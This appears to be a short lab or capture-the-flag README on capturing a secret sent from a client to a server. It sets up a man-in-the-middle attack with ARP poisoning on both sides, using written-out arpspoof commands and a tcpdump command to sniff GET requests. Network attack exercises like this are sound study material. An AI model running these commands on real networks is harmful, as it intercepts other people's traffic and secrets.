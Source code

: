 # Victim description

-   `Client` will send to `server` periodically a secret message. Our job is to capture what is that secret

# Set up MITM attack: With ARP poisoining

-   Step 1:
    -   poison client side: arpspoof -i eth0 -t (server_ip address) (client_ip address)
-   Step 2:
    -   poison server side: arpspoof -i eth0 -t (client_ip address) (server_ip address)
-   Step 3:
    -   packet sniffing in the middle with `tcpdump`
    -   Capture GET requests: `tcpdump -Alvvs0 | grep 'GET'`
